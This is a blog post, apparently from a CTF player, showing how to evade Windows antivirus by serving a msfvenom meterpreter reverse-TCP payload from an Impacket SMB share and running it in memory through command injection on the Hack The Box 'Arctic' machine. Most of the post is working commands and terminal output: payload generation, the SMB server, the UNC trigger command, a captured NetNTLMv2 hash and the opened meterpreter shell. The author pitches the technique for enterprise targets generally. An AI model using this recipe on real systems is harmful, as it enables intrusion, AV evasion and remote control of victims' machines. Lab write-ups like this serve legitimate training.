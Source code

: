 ```yaml
---
layout: post
title: Bypass AV using Impacket SmbServer
categories:
  - Exploits
---
```



<br>This Topic is really interesting because many people don't know exactly how to bypass common AV in windows machine, if you look at most of the AV these days heuristic detection is off even in the enterprise/Companies because it takes a lot of CPU usage.

<br>And this is where we can utilise this Weak spot, Consider a scenario where we have a RCE, or OS-command Injection on the Web, for this I am taking the HTB Arctic machine, which fit's perfectly for this situation.

<br>Now as we know that machine have AV because of which we couldn't able to exeute a meterpreter payload, and later we created a Ecnrypted meterpreter with veil evasion.
<br>With this method we don't need to encode our meterpreter payload, we just need to set up our Impacket smb server and then run the command which will reqest our payload file and run that in the memory, because heuristic detection is off we can easily Bypass it.

<br>**Poc**
<br>if you have not Done the [Arctic](https://teckk2.github.io/writeup/2017/12/27/Arctic.html) machine, I recomend first follow the steps and reach the step where we have RCE on the web,
<br>first generate the Payload

<font size="1">
<div style="height:100px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
  
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.*.*.10 LPORT=4455 -f exe > arctic.exe
<br>No platform was selected, choosing Msf::Module::Platform::Windows from the payload
<br>No Arch selected, selecting Arch: x86 from the payload
<br>No encoder or badchars specified, outputting raw payload
<br>Payload size: 341 bytes
<br>Final size of exe file: 73802 bytes
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>

<br>Now Download and Install the [Impacket Server](https://github.com/CoreSecurity/impacket).
<br>And then run it 

<font size="1">
<div style="height:100px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># impacket-smbserver teck /root/Desktop/
<br>Impacket v0.9.17-dev - Copyright 2002-2018 Core Security Technologies</p>

<p>[*] Config file parsed
<br>[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
<br>[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
<br>[*] Config file parsed
<br>[*] Config file parsed
<br>[*] Config file parsed</p>
</div>
</font>
<br>In this I am using teck as the remote folder name to represent on the server and my file is in /root/Desktop/
<br>Now our SMB server is up and runnig now go to the web page and request for the file with the command **{/c \\10.*.*.10\teck\arctic.exe}**.
<br> ![SMB-Request](https://teckk2.github.io/assets/images/Arctic/17.PNG)
<br>Before you execute the command make sure to set up the meterpreter listner
<br>After executing wait for 30-40 Sec to get the request on the SMB server

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
  
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># impacket-smbserver teck /root/Desktop/
<br>Impacket v0.9.17-dev - Copyright 2002-2018 Core Security Technologies</p>

<p>[*] Config file parsed
<br>[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
<br>[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
<br>[*] Config file parsed
<br>[*] Config file parsed
<br>[*] Config file parsed
<br>[*] Incoming connection (10.10.10.11,51377)
<br>[*] AUTHENTICATE_MESSAGE (ARCTIC\tolis,ARCTIC)
<br>[*] User tolis\ARCTIC authenticated successfully
<br>[*] <br>tolis::ARCTIC:4141414141414141:2c61717958f1127eca09aa171e1c1d09:01010000000000000065347207f9d30170ad6d3e142ee07700000000010010007500<br>5300590056004f006700630067000200100061004c0076004b0078004c0050007a000300100075005300590056004f006700630067000400100061004c0076004b00<br>78004c0050007a00070008000065347207f9d301060004000200000008003000300000000000000000000000003000005f5d2c0dd8d042f2bceefe6e8fb2072d4dd0<br>38e23ce10f454d55eee31d91688c0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00<br>31003000000000000000000000000000<p>

</div>
</font>

<br>We got the request Now check our MSF

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
 
<p>msf > use exploit/multi/handler 
<br>msf exploit(<font color="red">multi/handler</font>) > set payload windows/meterpreter/reverse_tcp
<br>payload => windows/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">multi/handler</font>) > set LHOST 10.*.*.10
<br>LHOST => 10.10.14.10
<br>msf exploit(<font color="red">multi/handler</font>) > set LPORT 4455
<br>LPORT => 4455
<br>msf exploit(<font color="red">multi/handler</font>) > exploit</p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.*.*.10:4455 
<br><font color="RoyalBlue">[*]</font> Sending stage (179779 bytes) to 10.10.10.11
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.*.*.10:4455 - 10.10.10.11:51379) at 2018-05-31 13:47:39 -0400</p>

<p>meterpreter > getuid 
<br>Server username: ARCTIC\tolis
<br>meterpreter > shell 
<br>Process 3848 created.
<br>Channel 1 created.
<br>Microsoft Windows [Version 6.1.7600]
<br>Copyright (c) 2009 Microsoft Corporation.  All rights reserved.</p>

<p>C:\ColdFusion8\runtime\bin>whoami
<br>whoami
<br>arctic\tolis</p>

<p>C:\ColdFusion8\runtime\bin> </p>

</div>
</font>

<br>As you can see we successfully executed our meterpreter payload in the memory and bypass the AV and get shell.
<br>I learned This method from my mentor [KNX](https://twitter.com/ddarix), you can check the Orignal Video.
<iframe src="https://www.youtube.com/watch?v=BLBFKp20idE&t=125s" width="640" height="360" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe>

<p class="message">
  ~ Hack the World and keep Loving Little Prince.
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>


